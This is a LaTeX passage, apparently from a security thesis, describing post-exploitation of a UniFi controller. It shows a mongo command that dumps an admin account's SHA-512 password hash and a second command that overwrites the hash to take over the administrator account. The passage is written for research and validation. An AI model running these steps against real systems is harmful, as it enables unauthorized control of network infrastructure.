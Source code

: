 \begin{lstlisting}[caption=Fetching Contents of MongoDB Admin Collection.,numbers=none,label={lst:unifi_mongodb_admin_contents}]
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.4.4
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.4.4
{
        "_id" : ObjectId("64750f87f19ea8014a2ceb6d"),
        "name" : "test_user",
        "email" : "admin@hotmail.com",
        "x_shadow" : "$6$msad4FLZ$WwZoWNYAGbcGY3bF8HVBQ.t.69dt/ogu1nsmeTjsorz4dBl3Q0Waoya35R.Gm0qEgPoVsUorIhVRVpoiG8cFo/",
        "time_created" : NumberLong(1685393287),
        "last_site_name" : "default"
}
\end{lstlisting}

Listing \ref{lst:unifi_mongodb_admin_contents} (p. \pageref{lst:unifi_mongodb_admin_contents}) shows the existence of an administrator user named \textit{test\_user}, its email, and the password hash of the user, which can be seen in the \textit{x\_shadow} field. This is a SHA-512 hash due to the \textit{\$6\$} characters at the start. As mentioned, cracking this hash to get the provided password would be possible. However, this could take a long time, so we updated the current administrator's password. We first generate a SHA-512 hash of the string ``mypassword'' using the command \texttt{mkpasswd -m sha-512 mypassword}. Lastly, the command on Listing \ref{lst:unifi_mongodb_update_admin_password} (p. \pageref{lst:unifi_mongodb_admin_contents}) updates the administrator account password using the previously generated SHA-512 password and the \texttt{ObjectId} of the currently existing administrator from Listing \ref{lst:unifi_mongodb_admin_contents} (p. \pageref{lst:unifi_mongodb_admin_contents}).

\begin{lstlisting}[caption=Update Administrator User Account Password.,numbers=none,label={lst:unifi_mongodb_update_admin_password}]
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("64750f87f19ea8014a2ceb6d")},{$set:{"x_shadow":"$6$zsmtIX0rAM.G4P8a$TKt4eg15VC11zpQaCVS6nLHdOYOzlfjO5m3Tvle7rtc1SOvMRYTT0jBBnRc
CqY5lAOLDNst3xfGQdX99GtpD0."}})'
\end{lstlisting}

The result is that now the \textit{test\_user} account has the newly replaced password \textit{mypassword}, and we can enter UniFi's network application and completely control it.

\subsection{Ransomware Scenario} \label{sec:validation_ransomware_scenario}

